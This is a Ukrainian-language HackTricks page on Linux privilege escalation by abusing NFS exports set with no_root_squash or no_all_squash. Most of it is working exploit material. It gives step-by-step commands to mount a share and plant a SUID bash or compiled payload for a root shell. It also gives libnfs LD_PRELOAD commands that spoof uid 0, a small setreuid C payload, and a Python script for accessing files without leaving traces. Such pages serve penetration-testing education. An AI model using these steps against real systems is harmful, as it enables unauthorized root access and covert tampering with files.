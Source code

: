 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Прочитайте файл _ **/etc/exports** _ , якщо ви знайдете деяку директорію, яка налаштована як **no\_root\_squash**, тоді ви можете **доступитися** до неї **як клієнт** і **записувати всередині** цієї директорії **так, ніби** ви були локальним **root** машини.

**no\_root\_squash**: Ця опція в основному надає повноваження користувачу root на клієнті доступатися до файлів на NFS сервері як root. І це може призвести до серйозних проблем з безпекою.

**no\_all\_squash:** Це схоже на опцію **no\_root\_squash**, але застосовується до **не-root користувачів**. Уявіть, що у вас є оболонка як користувач nobody; перевірте файл /etc/exports; опція no\_all\_squash присутня; перевірте файл /etc/passwd; емітуйте не-root користувача; створіть файл suid як цей користувач (монтуванням за допомогою nfs). Виконайте suid як користувач nobody і станьте іншим користувачем.

# Підвищення привілеїв

## Віддалена експлуатація

Якщо ви знайшли цю вразливість, ви можете її експлуатувати:

* **Монтування цієї директорії** на клієнтській машині, і **як root копіювання** всередину змонтованої папки бінарного файлу **/bin/bash** і надання йому прав **SUID**, і **виконання з жертви** машини цього бінарного файлу bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Монтування цього каталогу** на клієнтській машині та **як root копіювання** всередину змонтованої папки нашого скомпільованого вантажу, який зловживає правами SUID, надання йому **прав SUID** та **виконання з жертви** цієї двійкової програми (ви можете знайти тут деякі [C SUID вантажі](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Зверніть увагу, що якщо ви можете створити **тунель з вашого комп'ютера до комп'ютера жертви, ви все ще можете використовувати віддалену версію для експлуатації цього підвищення привілеїв, тунелюючи необхідні порти**.\
Наступний трюк стосується випадку, коли файл `/etc/exports` **вказує на IP**. У цьому випадку ви **не зможете використовувати** в жодному випадку **віддалену експлуатацію** і вам потрібно буде **зловживати цим трюком**.\
Ще однією необхідною умовою для роботи експлуатації є те, що **експорт всередині `/etc/export`** **повинен використовувати прапор `insecure`**.\
\--_Я не впевнений, що якщо `/etc/export` вказує на IP-адресу, цей трюк спрацює_--
{% endhint %}

## Basic Information

Сценарій передбачає експлуатацію змонтованого NFS-спільного ресурсу на локальному комп'ютері, використовуючи недолік у специфікації NFSv3, який дозволяє клієнту вказувати свій uid/gid, що потенційно може дозволити несанкціонований доступ. Експлуатація передбачає використання [libnfs](https://github.com/sahlberg/libnfs), бібліотеки, яка дозволяє підробляти виклики NFS RPC.

### Compiling the Library

Кроки компіляції бібліотеки можуть вимагати коригувань залежно від версії ядра. У цьому конкретному випадку системні виклики fallocate були закоментовані. Процес компіляції включає наступні команди:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Проведення експлуатації

Експлуатація полягає у створенні простого C програми (`pwn.c`), яка підвищує привілеї до root, а потім виконує оболонку. Програма компілюється, а отриманий бінарний файл (`a.out`) розміщується на загальному ресурсі з suid root, використовуючи `ld_nfs.so` для підробки uid у викликах RPC:

1. **Скомпілюйте код експлуатації:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Розмістіть експлуатацію на загальному ресурсі та змініть її дозволи, підробляючи uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Виконайте експлуатацію для отримання привілеїв root:**
```bash
/mnt/share/a.out
#root
```

## Бонус: NFShell для прихованого доступу до файлів
Після отримання доступу root, для взаємодії з NFS загальним ресурсом без зміни власності (щоб уникнути залишення слідів), використовується Python скрипт (nfsh.py). Цей скрипт налаштовує uid, щоб відповідати uid файлу, до якого звертаються, що дозволяє взаємодіяти з файлами на загальному ресурсі без проблем з дозволами:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Запустіть як:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}

